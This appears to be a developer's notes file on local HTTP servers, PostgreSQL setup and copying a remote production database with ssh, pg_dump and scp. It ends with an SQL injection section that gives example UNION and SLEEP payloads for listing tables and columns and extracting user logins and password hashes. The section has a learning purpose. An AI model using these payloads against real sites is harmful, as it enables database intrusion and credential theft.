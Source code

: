 # Servers

## SimpleHTTPServer (Python)

Run a simple http server in any directory on mac: `$ python -m SimpleHTTPServer [port number]`

Example: `$ python -m SimpleHTTPServer 8005`

## Simple HTTP Server (ruby)

1. Run a simple http server in any directory on mac: `$ ruby hello_world_server.rb` [see file](./hello_world_server.rb)

2. Run a more complex http server. For each incoming request, we’ll parse the *Request-URI* header and translate it into a path to a file within the server’s public folder:

```ruby
ext = File.extname(path).split(".").last
```

If we’re able to find a match, we’ll respond with its contents, using the file’s size to determine the *Content-Length* and its extension to determine the *Content-Type*:

```ruby
"HTTP/1.1 200 OK\r\n" +
"Content-Type: #{content_type(file)}\r\n" +
"Content-Length: #{file.size}\r\n" +
"Connection: close\r\n"
```

If no matching file can be found, we’ll respond with a 404 Not Found error status.

## PostgreSQL Server

*PG::ConnectionBad*
```Unix
Started GET "/" for 127.0.0.1 at 2017-06-28 10:31:13 -0500
could not connect to server: No such file or directory
	Is the server running locally and accepting
	connections on Unix domain socket "/tmp/.s.PGSQL.5432"?
 excluded from capture: DSN not set

PG::ConnectionBad (could not connect to server: No such file or directory
	Is the server running locally and accepting
	connections on Unix domain socket "/tmp/.s.PGSQL.5432"?
):
```

Starting the server: `pg_ctl` - [utility to initialize, start, stop, or control a PostgreSQL server](https://www.postgresql.org/docs/9.5/static/app-pg-ctl.html).

Example: `$ pg_ctl start [-D datadir] [-l filename]`
* get path to postgres via `$ which postgres` => `/usr/local/var/postgres`
* `-D datadir`: Specifies the file system location of the database files.
* `-l filename`: Append the server log output to filename.
If you don't specify this, logs will be outputted to the console.

```Unix
$ pg_ctl -D /usr/local/var/postgres -l logfile start
```

## Deamons

Files with `d` or `.d` suffix stand for Deamon.
Example: `/etc/init.d/nginx`

## Downloading Remote Serve SQL

1. SSH into the remote server: `$ ssh mike@11.111.11.11`

2. Copy the application's database host, name, username, and password via vi or cat:

`$ cat /var/www/path/to/application/shared/config/database.yml`

*Example:*
```yml
production:
  host: database_host
  adapter: postgresql
  encoding: unicode
  database: database_name
  pool: 5
  username: database_username
  password: database_password
```

3. After you have set the variables, `pg_dump` the database. When prompted, paste the database password:

```Unix
$ pg_dump -c -f file_name.sql -d database_name -h database_location -U database_username -W
database_password
```

4. `tar` the `.sql` file and delete (`rm`) it:

```Unix
$ tar czvf file_name.sql.tgz [file_name].sql
$ rm file_name.sql
```

Why are the flags `c`, `z`, `v`, `f`?

* `-c`: Create a new archive containing the specified items.
* `-z`: Compress the resulting archive (i.e., (un)z̲ip).
* `-v`: Produce verbose output.
* `-f`: Read the archive from or write the archive to the specified file.

Print your current working directory so you know how to access the file when you complete a secure copy (scp):

`$ pwd`

In many cases, this will be: `/home/mike/`

5. Exit the remove database and copy the sql tgz file to your local machine:

`$ scp mike@app_url:path_to_file/file_name.sql.tgz .`

Example: `$ scp mike@11.111.11.11:/home/mike/file_name.sql.tgz .`

6. Unzip, extract, and print file names (i.e., verbosely) via: `$ tar xzvf file_name.sql.tgz`

Why `z`, `x`, `v`, `f`?

* `-x`: means ex̲tract files from the archive.
* `-z`: Compress the resulting archive (i.e., (un)z̲ip).
* `-v`: Produce verbose output.
* `-f`: Read the archive from or write the archive to the specified file.

7. Load the sql file into your local database:

`$ psql -d name_of_local_database < path_to_file.sql`

_You may need to update the database due to any outstanding migrations if you have any locally:_

```Unix
$ bundle exec rake db:migrate
```

## SQL Injection

[Running an SQL Injection Attack - Computerphile](https://youtu.be/ciNHn38EyRc)

```SQL
-- SLEEP is an SQL command
SELECT ? FROM ? WHERE ? LIKE %hammer% AND 0 = SLEEP(2);

-- UNION Appends - makes sure column count matches

-- Get the table names of all the tables
-- we are selecting 3 columns b/c it must match the original SELECT call
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.table); --%';

-- Get the column names of the users table
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --%';

-- GEt the particular data for each user
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT uLogin, uHash, uType FROM users); --%''
```

![SQL_Injected_Products_Table](/assets/sql_injected_products_table.png)
